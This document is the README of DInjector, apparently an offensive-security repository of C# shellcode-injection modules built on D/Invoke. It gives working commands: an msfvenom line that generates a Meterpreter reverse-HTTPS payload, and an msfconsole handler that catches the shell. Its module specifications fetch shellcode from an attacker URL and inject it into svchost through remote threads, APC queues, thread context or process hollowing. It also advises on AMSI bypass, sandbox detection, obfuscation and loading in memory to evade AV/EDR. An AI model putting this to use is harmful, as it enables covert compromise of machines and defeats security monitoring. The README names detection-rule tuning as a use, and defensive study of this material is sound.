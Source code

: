 DInjector
==========

```
     (    (
     )\ ) )\ )                   )             (   (  (
    (()/((()/(     (    (     ( /(    (        )\ ))\ )\
     /(_))/(_))(   )\  ))\ (  )\())(  )(      (()/((_|(_)
    (_))_(_))  )\ |(_)/((_))\(_))/ )\(()\      ((_))  _
     |   \_ _|_(_/( !(_)) ((_) |_ ((_)((_)     _| | || |
     | |) | || ' \)) / -_) _||  _/ _ \ '_|  _/ _` | || |
     |___/___|_||_|/ \___\__| \__\___/_|   (_)__,_|_||_|
                 |__/-----------------------------------
                                                K E E P
                                                C A L M
                                                  A N D
                                       D / I N 💉 E C T
                                      S H E L L C O D E
```

This repository is an accumulation of my code snippets for various **shellcode injection** techniques using fantastic [D/Invoke](https://thewover.github.io/Dynamic-Invoke/) API by @TheWover and @FuzzySecurity.

DInjector is not intended to be used for AV/EDR evasion out-of-the-box, but provides a bunch of weaponized examples to improve your generic tradecraft during the engagement and/or sharpen your detection rules to prevent this sort of shellcode execution.

Some tips how the driver [Program](/DInjector/Program.cs) can be enhanced (leaving it as an exercise for the reader):

* Use encrypted payloads which can be invoked from a URL or passed in Base64 as an argument.
* Add built-in AMSI bypass (a great example from @rasta-mouse is [here](https://rastamouse.me/memory-patching-amsi-bypass/)).
* Add sandbox detection methods.
* Protect the resulting assembly with [ConfuserEx](https://github.com/yck1509/ConfuserEx) or similar tools.

**Note:** based on my testings the DInvoke NuGet [package](https://www.nuget.org/packages/DInvoke/) itself is being flagged by many commercial AV/EDR solutions when incuded as an embedded resource via [Costura.Fody](https://www.nuget.org/packages/Costura.Fody/) (or similar approaches), so I recommend to modify it and include from [source](https://github.com/TheWover/DInvoke) to achieve better opsec.

## Usage

Here is a basic example to get started.

1. Compile the project in Visual Studio.
2. Generate a shellcode for your favourite C2:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
```

3. Serve `shellcode.bin` and start C2 listener:

```console
~$ sudo python3 -m http.server 80
~$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set lhost 10.10.13.37; set lport 443; set EXITFUNC thread; run"
```

4. Use one of the PowerShell download [cradles](/Cradles) to load DInjector.dll as `System.Reflection.Assembly` and execute it from memory.

I **do not** recommend putting the assembly on disk because it will very likely be flagged.

## Modules

**Note:** opsec safe considerations are based on my personal expirience and some testings along the way.

### [FunctionPointer](/DInjector/Modules/FunctionPointer.cs)

```yaml
module_name: 'functionpointer'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin
description: |
  Allocates a RWX memory region, copies the shellcode into it
  and executes it like a function.
calls:
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
opsec_safe: false
references:
  - 'http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/'
  - 'https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis'
  - 'https://www.fergonez.net/post/shellcode-csharp'
```

### [FunctionPointerV2](/DInjector/Modules/FunctionPointerV2.cs)

```yaml
module_name: 'functionpointerv2'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin
description: |
  Sets RWX on a byte array and executes it like a function.
calls:
  - ntdll.dll:
    1: 'NtProtectVirtualMemory'
opsec_safe: false
references:
  - 'https://jhalon.github.io/utilizing-syscalls-in-csharp-1/'
  - 'https://jhalon.github.io/utilizing-syscalls-in-csharp-2/'
  - 'https://github.com/jhalon/SharpCall/blob/master/Syscalls.cs'
```

### [CurrentThread](/DInjector/Modules/CurrentThread.cs)

```yaml
module_name: 'currentthread'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin
description: |
  Injects shellcode into current process.
  Thread execution via NtCreateThreadEx.
calls:
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
    2: 'NtProtectVirtualMemory'
    3: 'NtCreateThreadEx'
    4: 'NtWaitForSingleObject'
opsec_safe: false
references:
  - 'https://github.com/XingYun-Cloud/D-Invoke-syscall/blob/main/Program.cs'
```

### [RemoteThread](/DInjector/Modules/RemoteThread.cs)

```yaml
module_name: 'remotethread'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /pid:1337
description: |
  Injects shellcode into an existing remote process.
  Thread execution via NtCreateThreadEx.
calls:
  - ntdll.dll:
    1: 'NtOpenProcess'
    2: 'NtAllocateVirtualMemory'
    3: 'NtWriteVirtualMemory'
    4: 'NtProtectVirtualMemory'
    5: 'NtCreateThreadEx'
opsec_safe: false
references:
  - 'https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/SharpImpersonation/Shellcode.cs'
```

### [RemoteThreadAPC](/DInjector/Modules/RemoteThreadAPC.cs)

```yaml
module_name: 'remotethreadapc'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /image:C:\Windows\System32\svchost.exe
description: |
  Injects shellcode into a newly spawned remote process.
  Thread execution via NtQueueApcThread.
calls:
  - kernel32.dll:
    1: 'CreateProcess'
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
    2: 'NtWriteVirtualMemory'
    3: 'NtProtectVirtualMemory'
    4: 'NtOpenThread'
    5: 'NtQueueApcThread'
    6: 'NtAlertResumeThread'
opsec_safe: true
references:
  - 'https://rastamouse.me/exploring-process-injection-opsec-part-2/'
  - 'https://gist.github.com/jfmaes/944991c40fb34625cf72fd33df1682c0'
```

### [RemoteThreadContext](/DInjector/Modules/RemoteThreadAPC.cs)

```yaml
module_name: 'remotethreadcontext'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /image:C:\Windows\System32\svchost.exe
description: |
  Injects shellcode into a newly spawned remote process.
  Thread execution via SetThreadContext.
calls:
  - kernel32.dll:
    1: 'CreateProcess'
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory'
    2: 'NtWriteVirtualMemory'
    3: 'NtProtectVirtualMemory'
    4: 'NtCreateThreadEx'
    5: 'GetThreadContext'
    6: 'SetThreadContext'
    7: 'NtResumeThread'
opsec_safe: true
references:
  - 'https://blog.xpnsec.com/undersanding-and-evading-get-injectedthread/'
  - 'https://github.com/djhohnstein/CSharpSetThreadContext/blob/master/Runner/Program.cs'
```

### [ProcessHollow](/DInjector/Modules/ProcessHollow.cs)

```yaml
module_name: 'processhollow'
arguments: |
  /sc:http://10.10.13.37/shellcode.bin /image:C:\Windows\System32\svchost.exe
description: |
  Injects shellcode into a newly spawned remote process.
  Thread execution via NtResumeThread (hollowing with shellcode).
calls:
  - kernel32.dll:
    1: 'CreateProcess'
  - ntdll.dll:
    1: 'NtQueryInformationProcess'
    2: 'NtReadVirtualMemory'
    3: 'NtProtectVirtualMemory'
    4: 'NtWriteVirtualMemory'
    5: 'NtResumeThread'
opsec_safe: false
references:
  - 'https://github.com/CCob/SharpBlock/blob/master/Program.cs'
```

## Credits

* @TheWover and @FuzzySecurity for their awesome [DInvoke](https://github.com/TheWover/DInvoke) project.
* All those great researchers mentioned in the modules references above.
